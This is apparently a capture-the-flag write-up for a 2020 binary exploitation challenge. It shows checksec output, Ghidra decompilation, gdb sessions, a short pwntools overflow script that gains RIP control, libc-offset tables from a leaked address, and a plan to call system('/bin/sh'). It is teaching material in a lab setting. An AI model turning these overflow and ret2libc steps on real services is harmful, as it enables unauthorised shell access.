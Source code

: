 # PWN1

Status: Solved
Flag: `ncct{m3_w4nt_c00k13$_and_41m0nd_m1lk}`

With all binaries, want to start with checking the security structures
```
$ checksec pwn_me
[*] '/home/ubuntu/CCT_2020/PWN/pwn1/pwn_me'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Alright with PIE and NX, we are in for a bit of a treat possibly, but no canary so overflows are possibly.

Ok so now we just run the executable to see what we are working with
```
$ chmod u+x pwn_me
$ ./pwn_me
0x7fc9d969bca0
Cookie Monster ONLY Wants...
PROMPT>ello
PROMPT>^C
```
So we have some sort of address put out, a message, then a never eneding prompt. Does this same behavior happen on the remote service"

```
$ ping www.cybercompetitionteam.com
64 bytes from 64.227.23.177 (64.227.23.177): icmp_seq=1 ttl=38 time=8.87 ms
$ nc 64.227.23.177 1337
0x7f9a13971ca0
Cookie Monster ONLY Wants...
PROMPT>
```
Yep, behavior is the same.

Pumping the binary into Ghidra we see on line 62
```
printf("%p\n",*chunks[7]);
```
This is the pointer being putout, which is pointer partway into this stack buffer.

Dropping this into gdb to manipulate the win funciton:
```
$ gdb pwn_me
> disass main
> b *main+494
> r
> set $rax=1
> c
Segmentation fault
```
So something is happening with the pointers it is referencing if we try and jump it. This tells me we may have to play by the game of the binary, rather than going for an overflow.

In Ghidra in the check cookies function we see
```
    iVar1 = strcmp(input,"snickerdoodles");
    if (iVar1 == 0) {
      iVar1 = 0;
    }
    else {
      iVar1 = strcmp(input,"oatmeal");
      if (iVar1 == 0) {
        iVar1 = 0;
      }
      else {
        iVar1 = strcmp(input,"gingersnap");
        if (iVar1 == 0) {
          iVar1 = 0;
        }
        else {
          iVar1 = strcmp(input,"shortbread");
          if (iVar1 == 0) {
            iVar1 = 0;
          }
          else {
            iVar1 = strcmp(input,"butter");
            if (iVar1 == 0) {
              iVar1 = 0;
            }
            else {
              iVar1 = strcmp(input,"molasses");
              if (iVar1 == 0) {
                iVar1 = 0;
              }
              else {
                iVar1 = strcmp(input,"sugar");
                if (iVar1 == 0) {
                  iVar1 = 0;
                }
                else {
                  iVar1 = strcmp(input,"sugar");
                  if (iVar1 == 0) {
                    iVar1 = 0;
                  }
                  else {
                    iVar1 = strcmp(input,"sugar");
                    if (iVar1 == 0) {
                      iVar1 = 0;
                    }
                    else {
                      iVar1 = strcmp(input,"almond");
                      if (iVar1 == 0) {
                        iVar1 = 1;
                      }
                      else {
                        iVar1 = strcmp(input,"toffee");
                        if (iVar1 == 0) {
                          iVar1 = 0;
                        }
                        else {
                          iVar1 = strcmp(input,"maple");
                          if (iVar1 == 0) {
                            iVar1 = 0;
                          }
                          else {
                            iVar1 = strcmp(input,"fluffernutter");
                            if (iVar1 == 0) {
                              iVar1 = 0;
                            }
                            else {
                              iVar1 = 0;
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  return iVar1;
}
```

So lets see where entering this into the funciton works for us
```
$ gdb pwn_me
> b get_cookie
> r
snickerdoodles
```
So as long as I have a space afte snickerdoodles, I am fine. So it is sending me back into the function. Let's see whet this all looks like when I enter the inputs it is looking for

```
$ ./pwn_me
0x7fb480ae5ca0
Cookie Monster ONLY Wants...
PROMPT>almond


Segmentation fault (core dumped)
```
Alright, that is interesting, what is happening here?
```
$ gdb pwn_me 
> b *main+494 //right after the return from get_cookie
> r
```

So the `memcpy` call puts the input into another address ... boom, there it is. The puts call (`*main+549) prints everything after the space in almond, so we just need to overflow that until we get to the flag. 

Wait no, we want shell, not a flag. Maybe it is a printf vulnerability?  

Ok, we soldier on, why is the segfault happening? 
```
$ gdb pwn_me
> b *main+0
> reg
RBP  0x555555555620 (__libc_csu_init)
> b *main+559 // the leave of main
> si
> x/dx $rsp
0x00000
```

So something is happening here where the stack is shifting causing the segfault, the question is, can we control that?

Well, lets see if we can overwite rip, get us some options.

Boom, got it with pwntools
```
from pwn import *

p = process("./pwn_me")
payload = "almond "
payload += "A"*417
payload += "B"*8
p.sendline(payload)
print(p.recv())
```

So we have RIP control, we are going to need to leak an address to figure out libc.

Alright, so were is this address pointing?
```
$ python hack.py
0x7f42b752bca0
$ gdb -p=123475
> vmmap 
 0x7f42b752b000     0x7f42b752d000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
```

Ok, so is this somehwere in the plt or the GOT? Nope, I went through and followed the GOT and the PLT from puts, this is nowhere near there. Where is this? Well thats exactly the thing, it is a libc address. 

So let's see if this address is consistent in libc? 
| PID | Printed Addr | Puts Addr | Difference |
|--|-|-|-|
|11495| `0x7fcff38ffca0`| `0x00007fcff3624070`| 2997296 |
|11511| `'0x7f742f59fca0` | `0x00007f742f2c4070` | 2997296 |

Got it, so we have a libc addr straight up given to us, what next? Ret2CSU. For that, we are going to need the base address of libc.


| PID | Printed Addr | LIBC Base Addr | Difference |
|--|-|-|-|
|11580| `0x7fd22f8a1ca0`| `0x7fd22f4b6000`| 4111520 |
|11596| `0x7f3f0fb3eca0`| `0x7f3f0f753000`| 4111520 |

Actually, not doing Ret2CSU, rather a simple `system("/bin/sh")` call. 

Having some issues.... oh, just stack alignment. Throw in an empty ret.
